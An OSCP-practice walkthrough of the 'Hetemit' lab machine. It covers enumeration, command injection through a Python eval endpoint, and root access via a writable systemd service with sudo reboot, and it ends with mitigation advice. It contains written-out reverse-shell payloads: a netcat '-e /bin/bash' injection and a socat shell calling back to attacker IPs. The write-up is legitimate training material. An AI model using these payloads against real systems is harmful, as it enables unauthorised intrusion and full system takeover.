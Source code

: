 ```yaml
---
title: Hetemit
date: 2025-06-22
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, Python-command-injection, sudo-reboot-privesc] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-06-22-hetemit/
---
```


## Introduction

In this walkthrough, I worked on an **intermediate-level Linux box** from PG Practice named *Hetemit*. While enumerating the web application, I discovered an endpoint (`/verify`) that evaluated arithmetic expressions. The server was using **Werkzeug**, a Python WSGI utility often exposing an interactive debugger in development mode. I successfully **performed command injection** through this endpoint and gained an initial shell. After enumeration, I found that I could **override a systemd service**, and I also had the ability to run `reboot` with `sudo`. By replacing the service content with a **reverse shell script**, I issued a reboot and got a **root shell** upon service restart.

## Nmap

### TCP

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n --open
```

## Services

### Port 21

- Searching for public exploits we find `searchsploit vsftpd 3.0`
    
    ![image.png](image%202.png)
    
- Anonymous access is allowed but it hangs to list directory:
    
    ![image.png](image%203.png)
    

### Port 22

We skip SSH for now.

### Port 139/445

```bash
smbclient -L //<RHOST>/ -N
```

![image.png](image%204.png)

```bash
smbclient //$IP/Cmeeks
```

![image.png](image%205.png)

## Web

### Port 80

- Searching for Apache exploits `searchsploit apache 2.4.37`
    
    Nothing found.
    
- Visiting the site we see just default site
- Directory Fuzzing

```bash
gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -x .php,.txt
```

Nothing found

### Port 50000

Accessing the page we see 

![image.png](image%206.png)

### Port 18000

![image.png](image%207.png)

I tried to login using default and credentials like `admin:admin`, `admin:no-password`, `admin:password` and tried also `SQL injection` but it seems it does not return success of the query, that’s why I am gonna skip it for now.

There is register too, when going there we see we can register and UPLOAD a file to the server 

![image.png](image%208.png)

Fill:

![image.png](image%209.png)

result:

![image.png](image%2010.png)

So we need to have invite code in order to register.

## Exploitation

```bash
gobuster dir -u http://$IP:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -x .php,.txt
```

Let’s capture the traffic when we visit /generate and /verify directories of the page

![image.png](image%2011.png)

Maybe we should try to send our email and it will return a code and verify can be used to verify that code or something, to change the method to `POST` method right-click on the request and select `“Change request method”`

![image.png](image%2012.png)

![image.png](image%2013.png)

It returned here something so let’s verify it

Moreover we don’t have domain too, that was just a try.

- **Verify**

![image.png](image%2014.png)

![image.png](image%2015.png)

That means at least it tried to do something

**6929ba46f8ff94fbd72a4c5da3f625101c7a164573fbb0a19ddf2804f3033a62**

![image.png](image%2016.png)

But nothing returned:

i tried with ruby reverse shell too, but again didn’t receive anything bacK;

![image.png](image%2017.png)

We should try something else.

![image.png](image%2018.png)

As you can see it returned me a number back, when I used multiplication it evaluates it:

![image.png](image%2019.png)

That likely means that server using Python evaluates expression.

We can perform here command injection, and we know that in order to perform system commands using `Python` we need to use `os` module, let’s try to see if it is present

![image.png](image%2020.png)

Let’s perform command injection now,

![image.png](image%2021.png)

```bash
code=os.system("nc 192.168.45.159 80 -e /bin/bash")
```

Now we have a shell

![image.png](image%2022.png)

Let’s make it interactive using python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

![image.png](image%2023.png)

[sudo-reboot-privilege-escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/)

```bash
socat file:`tty`,raw,echo=0 tcp-listen:139
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.179:139
```

![image.png](image%2024.png)

Now we are root

![image.png](image%2025.png)

## Mitigation

- **Remove the use of `eval()`** in `app.py`. Never evaluate user-supplied input directly — instead, safely parse or validate inputs using whitelisting or `ast.literal_eval()` if absolutely needed.
- **Validate the HTTP method** and restrict `/verify` to only accept expected methods (e.g., GET or POST) with properly sanitized input.
- **Disallow dangerous built-ins** like `os.system()` from being accessible through any user input.
- **Secure the `sudo` configuration** by removing `/sbin/reboot` from the list of commands the user can run without a password or ensuring it doesn't allow indirect code execution.
- **Restrict write permissions** to systemd service files. Only trusted users should be able to modify or reload services.
